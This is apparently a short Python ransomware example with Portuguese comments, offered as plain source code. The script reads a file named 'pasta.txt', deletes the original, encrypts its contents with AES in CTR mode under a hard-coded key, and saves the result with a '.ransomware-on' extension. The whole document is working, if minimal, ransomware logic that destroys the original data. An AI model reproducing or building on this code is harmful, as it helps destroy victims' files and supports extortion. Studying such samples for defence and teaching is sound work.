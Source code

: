 import os
import pyaes

## abrir o arquivo a ser criptografado
file_name = "pasta.txt"
file = open(file_name, "rb")
file_data = file.read()
file.close()

## remover o arquivo
os.remove(file_name)

## chave de criptografia
key = b"pastaransomwares"
aes = pyaes.AESModeOfOperationCTR(key)

## criptografar o arquivo
crypto_data = aes.encrypt(file_data)

## salvar o arquivo criptografado
new_file = file_name + ".ransomware-on"
new_file = open(f'{new_file}','wb')
new_file.write(crypto_data)
new_file.close()
